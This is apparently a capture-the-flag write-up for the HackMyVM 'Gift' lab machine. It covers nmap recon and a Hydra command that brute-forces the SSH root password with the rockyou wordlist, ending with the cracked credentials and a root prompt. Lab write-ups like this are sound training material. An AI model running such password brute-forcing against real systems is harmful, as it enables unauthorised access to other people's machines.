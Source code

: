 ```yaml
---
layout: post
title: "HackMyVM: Gift"
---
```


An incredibly easy VM that's also easy to overthink.

### Recon

**nmap**

```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-11-23 01:05 EST  
Nmap scan report for 192.168.56.110  
Host is up (0.00028s latency).  
Not shown: 998 closed ports  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)  
80/tcp open  http    nginx  
|_http-title: Site doesn't have a title (text/html).  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 13.19 seconds
```

A 22-80. We know where to go first.

**website**

The site is just a simple HTML file, with only the contents `Dont Overthink. Really, Its simple.` in it, along with an HTML comment: `Trust me`. Clearly, there isn't much here. Since this is the case, we might as well try to go for SSH.

### User & Root

The only user we know to exist on this box for certain is `root`. We (once again) use Hydra to brute force possible passwords for the root user:
```
hydra -l root -P ~/SecLists/Passwords/Leaked-Databases/rockyou.txt ssh://192.168.56.110
```

Mind the IP, hope it doesn't impede. After only a minute, we get a password for root:
```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these ***  
ignore laws and ethics anyway).  
  
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-23 01:10:31  
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4  
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task  
[DATA] attacking ssh://192.168.56.110:22/  
[STATUS] 176.00 tries/min, 176 tries in 00:01h, 14344222 to do in 1358:22h, 16 active  
[22][ssh] host: 192.168.56.110   login: root   password: simple
```

These credentials give us full root access to the machine. That was faster than any of us thought.
```
gift:~#
```